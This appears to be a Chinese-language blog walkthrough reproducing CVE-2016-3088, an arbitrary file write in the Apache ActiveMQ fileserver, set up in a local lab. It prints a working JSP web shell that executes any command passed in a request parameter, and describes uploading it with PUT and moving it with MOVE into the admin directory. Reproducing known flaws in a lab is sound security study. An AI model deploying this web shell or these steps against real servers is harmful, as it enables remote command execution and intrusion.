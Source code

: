 **目录**

[Apache ActiveMQ](#t0 "Apache ActiveMQ")

[一、漏洞描述](#t1 "一、漏洞描述")

[二、漏洞影响版本](#t2 "二、漏洞影响版本")

[三、漏洞环境搭建](#t3 "三、漏洞环境搭建")

[四、漏洞复现](#t4 "四、漏洞复现")

* * *

Apache ActiveMQ
---------------

[Apache](https://so.csdn.net/so/search?q=Apache&spm=1001.2101.3001.7020) ActiveMQ是Apache软件基金会所研发的开放源代码消息中间件；

### **一、漏洞描述**

该漏洞出现在 fileserver 应用中,漏洞原理：[ActiveMQ](https://so.csdn.net/so/search?q=ActiveMQ&spm=1001.2101.3001.7020)中的fileserver服务允许用户通过HTTP PUT方法上传文件到指定目录。Fileserver支持写入文件(不解析jsp)，但是支持移动文件(Move)我们可以将jsp的文件PUT到Fileserver下,然后再通过Move指令移动到可执行目录下访问。

### **二、漏洞影响版本**

Apache ActiveMQ 5.0.0 - 5.13.2

### **三、漏洞环境搭建**

1、官网下载 apache-activemq-5.7.0-bin.tar 下载地址:http://activemq.apache.org/download-archives.html

2、解压 ，进入其 bin 目录下,运行 ./activemq start

![](https://img-blog.csdnimg.cn/20191224151742110.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

3、浏览器访问8161端口，如下图所示可以看到成功搭建环境

![](https://img-blog.csdnimg.cn/20191224152046252.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

4、nmap扫描，8161是ActiveMQ的后台服务的管理端口，61616是ActiveMQ的服务端口。

![](https://img-blog.csdnimg.cn/20191224152236233.png)

### **四、漏洞复现**

使用PUT方法上传如下木马代码到目标机器的 /fileserver/1.jsp 。以下代码可以换成其他的jsp木马。

```
<%@ page import="java.io.*"%>      
<%      
 out.print("Hello</br>");      
 String strcmd=request.getParameter("cmd");      
 String line=null;      
 Process p=Runtime.getRuntime().exec(strcmd);      
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));      
 while((line=br.readLine())!=null){      
  out.print(line+"</br>");      1
 }      1
%>
```


![](https://img-blog.csdnimg.cn/20191225171413246.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

访问上传的路径，如图，上传成功

![](https://img-blog.csdnimg.cn/20191225171444359.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

利用报错，爆出Web站点的绝对路径

![](https://img-blog.csdnimg.cn/20191225171517850.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

利用MOVE方法将木马文件移到Web站点的admin目录下

![](https://img-blog.csdnimg.cn/20191225172019660.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

访问admin下的木马文件，如图，成功获取权限。

![](https://img-blog.csdnimg.cn/2019122517205690.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)v![](https://img-blog.csdnimg.cn/20191225172116993.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[Apache ActiveMQ任意文件写入漏洞（CVE-2016-3088）复现](https://www.cnblogs.com/yuzly/p/11278131.html "Apache ActiveMQ任意文件写入漏洞（CVE-2016-3088）复现")
